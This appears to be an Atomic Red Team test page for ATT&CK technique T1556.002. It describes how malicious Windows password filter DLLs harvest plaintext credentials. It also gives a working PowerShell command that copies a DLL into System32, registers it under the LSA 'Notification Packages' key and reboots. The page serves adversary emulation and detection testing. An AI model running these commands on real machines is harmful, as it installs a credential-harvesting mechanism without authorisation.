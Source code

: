 # T1556.002 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL

auto_generated_guid: a7961770-beb5-4134-9674-83d7e1fa865c

Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder&#92;T1556.002&#92;src&#92;AtomicPasswordFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```




#### Dependencies:  Run with `powershell`!
##### Description: AtomicPasswordFilter.dll must exist on disk at specified location (#{input_dll})
##### Check Prereq Commands:
```powershell
if (Test-Path #{input_dll}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own password filter dll"
```




<br/>

